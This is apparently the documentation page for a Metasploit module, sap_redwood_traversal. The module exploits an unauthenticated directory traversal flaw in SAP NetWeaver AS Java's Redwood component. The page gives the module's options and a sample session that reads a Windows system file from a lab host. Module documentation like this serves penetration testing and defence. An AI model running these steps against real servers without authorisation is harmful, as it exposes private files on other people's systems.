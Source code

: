 # Description
This is a module for exploitation an anon directory traversal vulnerability in SAP NetWeaver Application Server Java in Redwood module. The vulnerability was active exploited from Chines hackers in the wild in 2017.


# Verification Steps
```
Start msfconsole
use auxiliary/scanner/sap/sap_redwood_traversal
set RHOSTS [IP]
set FILEPATH [file_on_remote_server]
set DEPTH [number]
run
```

## Scenarios
Tested on Windows 2008 with SAP NetWeaver AS Java 7.52
```
msf5 > use auxiliary/scanner/sap/sap_redwood_traversal 
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set rhosts 192.168.2.164
rhosts => 192.168.2.164
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set DEPTH 25
DEPTH => 25
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > run

[+] 192.168.2.164:50000 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[+] File saved in: [local_path_in_your_machine]
```
